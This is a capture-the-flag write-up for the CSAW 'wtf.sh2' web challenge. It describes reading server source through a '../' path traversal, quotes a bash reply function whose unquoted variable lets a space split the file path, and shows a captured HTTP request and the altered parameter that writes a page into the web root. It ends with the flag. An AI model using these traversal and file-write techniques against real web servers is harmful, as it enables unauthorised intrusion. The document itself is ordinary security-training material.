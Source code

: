 # Wtf.sh2 (web)

After alynch solved wtf.sh, we were left with the second challenge. While solving them [jlundstrom](https://github.com/jlundstrom) and Matt found out that if you went to http://web.chal.csaw.io:8001/post.wtf?post=../ you could view source & files in the folder!

After combing through each function I was looking at the reply function. Before I spoil the fun I'll let you look at it:

~~~
function reply {
local post_id=$1;
local username=$2;
local text=$3;
local hashed=$(hash_username "${username}");

curr_id=$(for d in posts/${post_id}/*; do basename $d; done | sort -n | tail -n 1);
next_reply_id=$(awk '{print $1+1}' <<< "${curr_id}");
next_file=(posts/${post_id}/${next_reply_id});
echo "${username}" > "${next_file}";
echo "RE: $(nth_line 2 < "posts/${post_id}/1")" >> "${next_file}";
echo "${text}" >> "${next_file}";

# add post this is in reply to to posts cache
echo "${post_id}/${next_reply_id}" >> "users_lookup/${hashed}/posts";
}
~~~

 Can you see any bugs? The following stood out to me 
 
 ~~~
 next_file=(posts/${post_id}/${next_reply_id});
 ~~~
 
 It doesn't use quotes to wrap around the strings that it adds together, so the vulnerability is that you can make the server ignore the ${next_reply_id} if you shove a space in the request back to the server.
 
 So I went ahead and fired up buprsuit and firefox. First I made an account called $get_flag2, made a new post and captured the reply with burpsuite, which is as follows:
 
 ~~~
 POST /reply.wtf?post=uZyis HTTP/1.1
Host: web.chal.csaw.io:8001
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://web.chal.csaw.io:8001/reply.wtf?post=uZyis
Cookie: USERNAME=$get_flag2; TOKEN=Ps77Gu5/mJGyMxv6GVm2LXLJdlrGzrQ8AcHCHzgDA4iDXZq2Xe+D5icGiGne5t83P+UZppjITL/9SEiCJVwgaw==
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

text=fsdsfd&submit=
 ~~~
 
 After changing the  post url to ../pleasework.wtf+ (the + will be a space that causes the next_reply_id to be appended), we could then navigate to http://web.chal.csaw.io:8001/pleasework.wtf, and guess what? It worked!
 
 The flag was: flag{n0b0dy_exp3c75_th3_p4r3nth3s1s_1nqu1s1t10n}
 
 Shoutout to the rest of the knightsec people for finding the directory and code reading stuff!
